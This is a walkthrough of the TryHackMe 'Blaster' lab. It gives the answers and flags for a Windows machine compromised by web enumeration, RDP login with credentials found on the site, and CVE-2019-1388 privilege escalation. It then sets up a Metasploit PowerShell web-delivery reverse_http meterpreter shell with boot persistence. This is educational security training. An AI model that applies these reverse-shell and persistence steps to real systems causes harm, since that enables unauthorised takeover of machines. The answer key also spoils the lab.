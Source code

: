 ```yaml
---
title: TryHackMe - Blaster
description: A blast from the past!
date: 2021-03-14 09:28:24 +0530
categories:
  - Security
  - TryHackMe
tags:
  - tryhackme
  - ctf
  - security
  - windows
published: true
img_path: /assets/
---
```


![banner-image|640](images/thm-blaster/thm-blaster-banner.png)

Cover Image by [BiZkettE1](https://www.freepik.com/free-vector/modern-business-background-with-geometric-shapes_5287944.htm) on Freepik

## Task 1: Mission Start!

1. **Deploy the machine! This is a Windows box so give it a few minutes (3-5 at max) to come online**

> No answer required

## Task 2: Activate Forward Scanners and Launch Proton Torpedoes

1. **How many ports are open on our target system?**

![Nmap Scan Results](images/thm-blaster/nmap-scan-results.png)

> 2

1. **Looks like there's a web server running, what is the title of the page we discover when browsing?**

![IIS Landing Page](images/thm-blaster/iis-landing-page.png)

> IIS Windows Server

3. **Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?**

![Gobuster Results](images/thm-blaster/gobuster-results.png)

### Command Options

* **dir:** Enumerate directories and files
* **u:** Target URL
* **-x:** File formats to enumerate
* **-w:** Wordlist to use for enumeration
* **-t:** No. of threads

> /retro

4. **Navigate to our discovered hidden directory, what potential username do we discover?**

![Web App Landing Page|550](images/thm-blaster/webapp-landing-page.png)

> wade

5. **Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?**

![Comment on Post|500](images/thm-blaster/webapp-comment.png)

> parzival

6. **Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are its contents?**

```
xfreerdp +clipboard /u:wade /p:parzival /v:<machine-ip>
```

![Access Target with RDP|500](images/thm-blaster/target-access-rdp.png)

> THM{HACK_PLAYER_ONE}

## Task 3: Breaching the Control Room

1. **When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?**

![Browser History](images/thm-blaster/browser-history.png)

> CVE-2019-1388

**Note:** As of 14/03/2021 there is a bug in the machine due to which the history in the browser is missing. The workaround, for now, is just to google for the vulnerability and continue with the rest of the challenge

1. **Looks like an executable file is necessary for the exploitation of this vulnerability and the user didn't clean up very well after testing it. What is the name of this executable?**

![Executable Filename|500](images/thm-blaster/executable-file.png)

> hhupd

3. **Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!**

On searching online we come across two links that show us how we can use the executable file to exploit the vulnerability

[GitHub - jas502n/CVE-2019-1388: CVE-2019-1388 UAC提权](https://github.com/jas502n/CVE-2019-1388)

> No answer required

1. **Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?**

![User Privilege Level](images/thm-blaster/user-privilege.png)

> NT AUTHORITY\SYSTEM

5. **Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!**

![Flag File Content](images/thm-blaster/flag-file.png)

> THM{COIN_OPERATED_EXPLOITATION}

## Task 4: Adoption into the Collective

1. **Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.**

![Metasploit Exploit](images/thm-blaster/metasploit-exploit.png)

> No answer required

2. **First, let's set the target to PSH (PowerShell). Which target number is PSH?**

![Setting Exploit Options|380](images/thm-blaster/exploit-options.png)

> 2

3. **After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.**

![Executing Exploit on Target](images/thm-blaster/running-exploit.png)

> No answer required

**Note:** The value for LHOST can be found by running "ip a show tun0" and looking under Inet

4. **Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.**

> No answer required

5. **Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple Python web server (python3 -m http.server) and host the command in a text file as copying and pasting between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned.**

![Generate PS Payload|580](images/thm-blaster/generate-payload.png)

![Sending Payload to Target](images/thm-blaster/sending-payload.png)

> No answer required

6. **Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to set up persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup.**

![Setup Persistence on Target](images/thm-blaster/setup-persistence.png)

> run persistence -X

7. **Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gained full control over the remote host and have established persistence for further operations!**

> No answer required

That's all. Happy Hacking :)